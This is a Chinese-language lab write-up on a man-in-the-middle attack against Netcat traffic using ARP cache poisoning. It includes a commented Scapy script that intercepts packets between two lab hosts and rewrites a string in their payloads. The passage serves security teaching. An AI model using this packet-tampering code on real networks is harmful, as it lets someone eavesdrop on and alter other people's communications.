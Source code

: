 


## Task 3: MITM Attack on Netcat using ARP Cache Poisoning

**Netcat 是一个网络工具**，用于建立 TCP/UDP 连接，常用于调试和传输数据。

与 Telnet一样，Netcat 默认不提供加密功能，数据以明文形式传输。

攻击目标是：

- **拦截 Netcat 通信**：捕获明文传输的数据。
- **篡改通信内容**：修改主机 A 和主机 B 之间发送的消息。
- **伪造回复**：模仿其中一方，向另一方发送伪造的数据。

编写 `mitm-nc.py`：

```python
#!/usr/bin/env python3  

from scapy.all import * 
import re  # 导入 Python 的正则表达式模块，用于字符串操作

# 定义主机 A 和主机 B 的 IP 和 MAC 地址
IP_A = "10.9.0.5"  # 主机 A 的 IP 地址
MAC_A = "02:42:0a:09:00:05"  # 主机 A 的 MAC 地址
IP_B = "10.9.0.6"  # 主机 B 的 IP 地址
MAC_B = "02:42:0a:09:00:06"  # 主机 B 的 MAC 地址

# 定义数据包处理函数，用于篡改 TCP 数据包中的有效载荷
def spoof_pkt(pkt):
    # 如果数据包是从主机 A 发往主机 B
    if pkt[IP].src == IP_A and pkt[IP].dst == IP_B:
        # 创建一个新的 IP 层，复制原始数据包的 IP 信息
        newpkt = IP(bytes(pkt[IP]))  
        del(newpkt.chksum)  # 删除原 IP 校验和字段，Scapy 会在发送时重新计算
        del(newpkt[TCP].payload)  # 删除原 TCP 层的有效载荷
        del(newpkt[TCP].chksum)  # 删除原 TCP 校验和字段，Scapy 会在发送时重新计算

        # 如果数据包有有效载荷
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load  # 获取 TCP 数据包的有效载荷（字节数据）
            newdata = data.replace(b'wangshihao', b'shihaowang')  # 将字节数据中的 "wangshihao" 替换为 "shihaowang"
            print(str(data) + " ==> " + str(newdata))  # 打印原始数据和修改后的数据，以供调试查看

            # 更新新的 IP 层的长度字段，调整为新数据的长度
            newpkt[IP].len = pkt[IP].len + len(newdata) - len(data)

            # 将修改后的数据包（新的 IP 层 + 新的有效载荷）发送出去
            send(newpkt/newdata, verbose=False)
        else:
            # 如果没有有效载荷，直接发送新的 IP 数据包
            send(newpkt, verbose=False)
    
    # 如果数据包是从主机 B 发往主机 A
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        # 创建一个新的 IP 层，复制原始数据包的 IP 信息
        newpkt = IP(bytes(pkt[IP]))  
        del(newpkt.chksum)  # 删除原 IP 校验和字段，Scapy 会在发送时重新计算
        del(newpkt[TCP].chksum)  # 删除原 TCP 校验和字段，Scapy 会在发送时重新计算
        
        # 直接转发数据包，不做修改
        send(newpkt, verbose=False)

# 设置嗅探过滤器，只捕获来自主机 A 或主机 B 的 TCP 数据包
f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'
```